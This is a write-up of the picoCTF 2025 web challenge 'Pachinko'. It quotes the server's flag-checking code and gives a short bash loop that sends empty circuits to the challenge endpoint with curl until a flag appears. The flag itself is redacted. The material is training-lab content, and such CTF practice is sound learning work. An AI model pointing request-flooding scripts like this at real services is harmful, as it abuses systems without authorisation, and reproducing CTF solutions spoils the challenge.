

# Pachinko

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: Web Exploitation, picoCTF 2025, browser_webshell_solvable
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Author: notdeghost

Description:
History has failed us, but no matter.
Server source

There are two flags in this challenge. Submit flag one here, and flag two in Pachinko Revisited.
Website

Hints:
(None))
```

Challenge link: [https://play.picoctf.org/practice/challenge/494](https://play.picoctf.org/practice/challenge/494)

## Solution

Start [BURP Suite](https://portswigger.net/burp) and configure your browser to use Burp as its proxy.  
Then browse to the web site and see the following



It looks like we need to build a [NAND gate](https://en.wikipedia.org/wiki/NAND_gate)!?

I clicked `Submit Circuit` without connecting any of the nodes to see the request and reply.  
Next, I sent the POST-request to `/check` to Burp's Repeater.  
When sending my second request I got the flag!?

I'm not sure why but it might have to do with the CPU-memory in the `doRun`-function in the file `index.js`

```javascript
function doRun(res, memory) {
  const flag = runCPU(memory);
  const result = memory[0x1000] | (memory[0x1001] << 8);
  if (memory.length < 0x1000) {
    return res.status(500).json({ error: 'Memory length is too short' });
  }

  let resp = "";

  if (flag) {
    resp += FLAG2 + "\n";
  } else {
    if (result === 0x1337) {
      resp += FLAG1 + "\n";
    } else if (result === 0x3333) {
      resp += "wrong answer :(\n";
    } else {
      resp += "unknown error code: " + result;
    }
  }

  res.status(200).json({ status: 'success', flag: resp });
}
```

If the result is `0x1337` then the flag is shown?  
And this might happen randomly?

### Writing an exploit script

To do something useful in this challenge we can write an exploit script utilizing `curl`

```bash
#!/bin/bash

PORT=59992

KEEP_GOING=true

while [ $KEEP_GOING = true ]
do
    curl -s -X 'POST' -H 'Content-Type: application/json' -H 'Content-Length: 14' --data-binary '{"circuit":[]}' "http://activist-birds.picoctf.net:$PORT/check" | grep -oE 'picoCTF{[^}]*}'
    if [ $? -eq 0 ]; then
        KEEP_GOING=false
    fi
done
```

### Get the flag

Finally, we run the script to get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2025/Web_Exploitation/Pachinko]
└─$ ./get_flag.sh
picoCTF{<REDACTED>}
```

Probably not the intended solution but it works!

For additional information, please see the references below.

## References

- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [Docker (software) - Wikipedia](https://en.wikipedia.org/wiki/Docker_(software))
- [NAND gate - Wikipedia](https://en.wikipedia.org/wiki/NAND_gate)
